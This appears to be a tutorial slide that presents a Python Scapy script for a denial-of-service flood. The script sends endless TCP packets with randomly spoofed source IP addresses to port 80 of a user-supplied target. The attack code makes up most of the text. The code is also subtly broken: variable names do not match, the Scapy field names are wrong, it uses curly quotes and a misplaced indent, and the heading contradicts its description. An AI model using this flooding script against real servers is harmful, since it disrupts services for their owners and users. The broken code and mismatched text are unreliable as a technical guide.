

# Multiple IP single port
A large number of packets are sent to web server by using multiple IP and from single port number. Its implementation in Python can be done with the help of Scapy. The following Python script implement Single IP multiple port DoS attack −
from scapy.all import *
target_IP = input("Enter IP address of Target: ")
source_port = int(input("Enter Source Port Number:"))
i = 1

while True:
   a = str(random.randint(1,254))
   b = str(random.randint(1,254))
   c = str(random.randint(1,254))
   d = str(random.randint(1,254))
   dot = “.”

   Source_ip = a + dot + b + dot + c + dot + d
   IP1 = IP(source_IP = source_IP, destination = target_IP)
   TCP1 = TCP(srcport = source_port, dstport = 80)
   pkt = IP1 / TCP1
   send(pkt,inter = .001)
   print ("packet sent ", i)
      i = i + 1